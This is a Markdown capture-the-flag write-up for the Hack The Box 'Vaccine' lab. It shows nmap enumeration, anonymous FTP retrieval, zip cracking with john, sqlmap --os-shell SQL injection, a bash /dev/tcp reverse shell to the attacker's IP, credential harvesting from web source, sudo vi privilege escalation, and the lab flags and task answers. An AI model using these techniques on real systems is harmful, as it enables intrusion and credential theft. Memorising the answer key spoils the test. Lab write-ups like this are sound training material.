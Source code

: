 # Vaccine

## ip

target: 10.129.95.174

attker: 10.10.15.248

## I. Enumeration

```bash
└─$ nmap -p- -Pn --min-rate=1000 -sV 10.129.95.174
Starting Nmap 7.93 ( https://nmap.org ) at 2023-02-24 09:46 EST
Warning: 10.129.95.174 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.129.95.174
Host is up (0.40s latency).
Not shown: 64772 closed tcp ports (conn-refused), 760 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.0p1 Ubuntu 6ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 124.29 seconds
```

## II. Get backup.zip file from ftp

```bash
┌──(kali㉿kali)-[~]
└─$ ftp 10.129.95.174      
Connected to 10.129.95.174.
220 (vsFTPd 3.0.3)
Name (10.129.95.174:kali): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||10702|)
150 Here comes the directory listing.
-rwxr-xr-x    1 0        0            2533 Apr 13  2021 backup.zip
226 Directory send OK.
ftp> get backup.zip
local: backup.zip remote: backup.zip
229 Entering Extended Passive Mode (|||10962|)
150 Opening BINARY mode data connection for backup.zip (2533 bytes).
100% |***********************************************************************************************************************************************************************************************|  2533      175.80 KiB/s    00:00 ETA
226 Transfer complete.
2533 bytes received in 00:00 (6.05 KiB/s)
ftp> exit
221 Goodbye.                             
┌──(kali㉿kali)-[~]
```

## III. Crack backup.zip using john

`zip2john backup.zip > zip.hases`

`john zip.hashes`

`john zip.hashes --show`

```bash
┌──(kali㉿kali)-[~]
└─$ zip2john backup.zip > zip.hashes
ver 2.0 efh 5455 efh 7875 backup.zip/index.php PKZIP Encr: TS_chk, cmplen=1201, decmplen=2594, crc=3A41AE06 ts=5722 cs=5722 type=8
ver 2.0 efh 5455 efh 7875 backup.zip/style.css PKZIP Encr: TS_chk, cmplen=986, decmplen=3274, crc=1B1CCD6A ts=989A cs=989a type=8
NOTE: It is assumed that all files in each archive have the same password.
If that is not the case, the hash may be uncrackable. To avoid this, use
option -o to pick a file at a time.
    
┌──(kali㉿kali)-[~]
└─$ john zip.hashes               
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 8 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/john/password.lst
741852963        (backup.zip)     
1g 0:00:00:00 DONE 2/3 (2023-02-24 10:00) 16.66g/s 1416Kp/s 1416Kc/s 1416KC/s 123456..faithfaith
Use the "--show" option to display all of the cracked passwords reliably
Session completed.                                                                                
┌──(kali㉿kali)-[~]
└─$ john zip.hashes --show
backup.zip:741852963::backup.zip:style.css, index.php:backup.zip

1 password hash cracked, 0 left
```

=> password: `741852963`

## IV. source code review => admin password

source code in `backup.zip`:

```php
<?php
session_start();
  if(isset($_POST['username']) && isset($_POST['password'])) {
    if($_POST['username'] === 'admin' && md5($_POST['password']) === "2cb42f8734ea607eefed3b70af13bbd3") {
      $_SESSION['login'] = "true";
      header("Location: dashboard.php");
    }
  }
?>
```

md5-reverse("2cb42f8734ea607eefed3b70af13bbd3") = `qwerty789`

## V. SQLi to reverse shell

website contains a search function which is vulnerable to SQLi

`sqlmapr` is a saved request when using the search function:

- --os-shell:

  ```bash
  ┌──(kali㉿kali)-[~]
  └─$ sqlmap -r sqlmapr --os-shell -batch

  os-shell> bash -c "bash -i >& /dev/tcp/10.10.15.248/4242 0>&1"
  ```

- => listening port:

  ```bash
  ┌──(pwncat)─(kali㉿kali)-[/usr/share/webshells/php]
  └─$ pwncat-cs --listen --port 4242
  /home/kali/Documents/learn-python/env/pwncat/lib/python3.11/site-packages/paramiko/transport.py:178: CryptographyDeprecationWarning: Blowfish has been deprecated
    'class': algorithms.Blowfish,
  [10:51:31] Welcome to pwncat 🐈!                                                                                                                                                                                             __main__.py:164
  [10:56:15] received connection from 10.129.95.174:41714                                                                                                                                                                           bind.py:84
  [10:56:23] 10.129.95.174:41714: registered new host w/ db                                                                                                                                                                     manager.py:957
  (local) pwncat$                                                                                                                                                                                                                             
  (remote) postgres@vaccine:/var/lib/postgresql/11/main$ whoami
  postgres
  ```

## VI. source code review => postgresql password

we have a reverse shell as `postgresql` user but we don't have password for this user.

=> check web source code, there may be credentials of `postgresql` used to connect to db

```bash
(remote) postgres@vaccine:/var/lib/postgresql/11/main$ cat /var/www/html/dashboard.php

...
try {
  $conn = pg_connect("host=localhost port=5432 dbname=carsdb user=postgres password=P@s5w0rd!");
}
...
```

=> `postgres:P@s5w0rd!`

## VII. user flag

`/var/lib/postgresql/user.txt`

```bash
(remote) postgres@vaccine:/var/lib/postgresql/11/main$ cat /var/lib/postgresql/user.txt 
ec9b13ca4d6229cd5cc1e09980965bf7
```

## VIII. root flag

use `sudo -l` to list the allowed (and forbidden) commands for the `postgres` user:

  ```bash
  (remote) postgres@vaccine:/var/lib/postgresql/11/main$ sudo -l
  [sudo] password for postgres: 
  Matching Defaults entries for postgres on vaccine:
      env_keep+="LANG LANGUAGE LINGUAS LC_* _XKB_CHARSET", env_keep+="XAPPLRESDIR XFILESEARCHPATH XUSERFILESEARCHPATH", secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, mail_badpass

  User postgres may run the following commands on vaccine:
      (ALL) /bin/vi /etc/postgresql/11/main/pg_hba.conf
  ```

haha, vi, i learned vi 2 years ago, brrrrrrr:

```bash
sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf
```

press `esc`, use `:e /root/root.txt` to open another file:

```bash
d6e058e814260bc70e9bbdef2715849
```

## Task

Task 1: Besides SSH and HTTP, what other service is hosted on this box?: `ftp`

Task 2: This service can be configured to allow login with any password for specific username. What is that username?: `anonymous`

Task 3: What is the name of the file downloaded over this service?: `backup.zip`

Task 4: What script comes with the John The Ripper toolset and generates a hash from a password protected zip archive in a format to allow for cracking attempts?: `zip2john`

Task 5: What is the password for the admin user on the website?: `qwerty789`

Task 6: What option can be passed to sqlmap to try to get command execution via the sql injection?: `--os-shell`

Task 7: What program can the postgres user run as root using sudo?: `vi`

Submit user flag: done

Submit root flag: done

## References

<https://dfir.science/2014/07/how-to-cracking-zip-and-rar-protected.html>
